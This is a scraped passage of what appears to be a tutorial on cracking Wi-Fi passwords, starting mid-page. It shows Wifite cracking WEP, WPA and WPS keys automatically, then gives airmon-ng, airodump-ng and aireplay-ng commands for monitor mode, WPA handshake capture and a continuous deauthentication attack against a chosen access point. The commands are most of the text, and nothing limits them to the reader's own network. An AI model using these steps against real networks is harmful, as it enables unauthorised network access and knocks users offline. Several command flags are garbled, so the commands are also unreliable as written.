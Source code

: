 ```sudo wifite ```

![Alt text](image.png)

It starts displaying all the wireless networks in your vicinity as shown below.

![Alt text](image-1.png)

Once you select the access point you want to target, hit CTRl + C and enter the number of that access point. In our case it is “1”.

As soon as you enter the number of that access point, Wifite tries out various attacks against the access point and grabs its password as shown below.

![Alt text](image-2.png)

As you can see, Wifite is successful in cracking WEP, WPA and WPS keys automatically without running any complex commands .
Learn how to crack Wifi passwords with Besside-ng: https://www.hackercoolmagazine.com/besside-ng-a-tool-to-hack-wi-fi-automatically/ 


# 2.Scan all the available networks

List down all the surrounding networks with:
```
sudo airmon-ng start wlan0
airodump-ng wlan0mon
```
# Capture the handshake

Run this command:
```
airodump-ng –channel {channel id} –bssid {BSSID} 
–essid {ESSID} -w {output directory of the captured file} wlan0mon
```

**EXAMPLE** 
```
airodump-ng -- channel 12 -- bssid 01:34:5C:56:2D:A5 -- essid 
IoT_tietoturva -- write  01
```
## Deauthenticate clients from target access point

Run this command:
```
aireplay-ng -0 0 -e {ESSID} -a bssid wlan0mon –ig
````

EXAMPLE 
```
aireplay-ng -0 0 -e IoT_tietoturva -a 01:34:5C:56:2D:A5 wlan0mon –ig
````
Now we wait… Once you’ve captured a handshake, you should see something like [ WPA handshake: bc:d3:c9:ef:d2:67 at the top right of the screen, just right of the current time.
Our deauthentication attack is successful when we see the captured handshakes. 
